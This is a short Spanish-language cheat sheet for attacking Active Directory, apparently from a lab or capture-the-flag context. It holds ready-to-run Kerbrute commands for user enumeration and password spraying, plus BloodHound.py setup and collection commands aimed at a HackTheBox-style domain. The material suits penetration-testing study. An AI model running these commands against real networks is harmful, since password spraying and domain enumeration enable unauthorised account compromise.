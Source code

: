 # Active Directory CheatSheet

## Kerbrute

### Enumeración de usuarios

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local users.txt
```

### Password Spraying

```bash
sudo ntpdate 10.10.11.129
./kerbrute passwordspray --dc CONTROLLER.local -d CONTROLLER.local users.txt Password123
```

## BloodHound

### BloodHound.py

**Nota: Al recopilar la info con la última versión es recomendable usar a su vez también la última versión del visualizador.**

#### Setup

[Repositorio Github](https://github.com/fox-it/BloodHound.py)

```bash
pyenv ...
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python setup.py install
```

#### Uso

```bash
python bloodhound.py -u hope.sharp -p 'Password123' -d search.htb -ns 10.10.11.129 -c All
```